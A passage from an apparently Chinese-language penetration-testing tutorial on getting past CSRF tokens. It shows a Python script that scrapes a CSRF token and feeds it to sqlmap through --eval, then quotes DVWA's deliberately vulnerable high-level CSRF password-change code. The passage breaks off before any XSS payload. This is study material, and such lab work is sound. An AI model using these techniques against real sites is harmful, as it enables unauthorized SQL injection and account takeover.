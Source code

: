 比如下面是获取csrf的Python脚本getCsrf.py

    import urllib2  
    import re  
      
    def get_csrf():  
    # Load a page to generate a CSRF token  
    opener = urllib2.build_opener()  
    opener.addheaders.append(('Cookie', 'PHPSESSID=<insert Sycamore session id>'))  
    page = opener.open('http://<insert host>/blog.php?view=2').read()  
      
    # Extract the token  
    match = re.search(r"window\.csrf = '(.+)';", page)  
    return match.group(1) 
把这个脚本放在sqlmap同目录下，kali是在/usr/share/sqlmap/,然后抓取页面的包，命名为test.txt
运行命令（抓的包csrf值不用改，sqlmap会自动加载脚本替换csrf的值）

    sqlmap -r test.txt --eval="import getCsrf;csrf=getCsrf.get_csrf()"  


**2.同域下通过XSS获取token**

比如Dvwa-CSRF-high级别：

存在漏洞的代码：

    <?php 
    
    if( isset( $_GET[ 'Change' ] ) ) { 
    // Check Anti-CSRF token 
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 
    
    // Get input 
    $pass_new  = $_GET[ 'password_new' ]; 
    $pass_conf = $_GET[ 'password_conf' ]; 
    
    // Do the passwords match? 
    if( $pass_new == $pass_conf ) { 
    // They do! 
    $pass_new = mysql_real_escape_string( $pass_new ); 
    $pass_new = md5( $pass_new ); 
    
    // Update the database 
    $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';"; 
    $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' ); 
    
    // Feedback for the user 
    echo "<pre>Password Changed.</pre>"; 
    } 
    else { 
    // Issue with passwords matching 
    echo "<pre>Passwords did not match.</pre>"; 
    } 
    
    mysql_close(); 
    } 
    